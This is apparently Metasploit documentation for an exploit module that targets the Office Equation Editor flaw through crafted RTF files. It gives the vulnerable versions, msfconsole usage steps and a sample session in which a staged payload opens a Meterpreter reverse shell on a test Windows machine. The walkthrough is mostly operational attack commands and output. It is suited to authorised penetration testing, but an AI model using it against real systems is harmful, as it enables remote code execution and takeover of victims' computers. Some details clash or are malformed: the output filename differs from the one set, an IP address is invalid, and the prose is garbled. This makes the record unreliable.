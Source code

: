 
Module exploits a flaw in how the Equation Editor that allows an attacker to execute arbitrary code in RTF files without interaction. The vulnerability is caused by the Equation Editor, to which fails to properly handle OLE objects in memory.

## Vulnerable Application

- Microsoft Office 2016
- Microsoft Office 2013 Service Pack 1
- Microsoft Office 2010 Service Pack 2
- Microsoft Office 2007

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/fileformat/office_ms17_11882`
3. Do: `set PAYLOAD [PAYLOAD]`
4. Do: `run`

## Options
### FILENAME
Filename to output, and location to which should be written.


## Example

```
msf > use exploit/windows/fileformat/office_ms17_11882
msf exploit(office_ms17_11882) > set FILENAME msf.rtf
FILENAME => /home/mumbai/file.rtf
msf exploit(office_ms17_11882) > set LHOST ens3
LHOST => ens3
msf exploit(office_ms17_11882) > set LPORT 35116
LPORT => 35116
msf exploit(office_ms17_11882) > run
[*] Using URL: http://0.0.0.0:8080/BUY0DYgc
[*] Local IP: http://192.1668.0.11:8080/BUY0DYgc
[*] Server started.
[*] 192.168.0.24     office_ms17_11882 - Handling initial request from 192.168.0.24
[*] 192.168.0.24     office_ms17_11882 - Stage two requestd, sending
[*] Sending stage (205379 bytes) to 192.168.0.24
[*] Meterpreter session 1 opened (192.168.0.11:35116 -> 192.168.0.24:52217) at 2017-11-21 14:41:59 -0500
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```
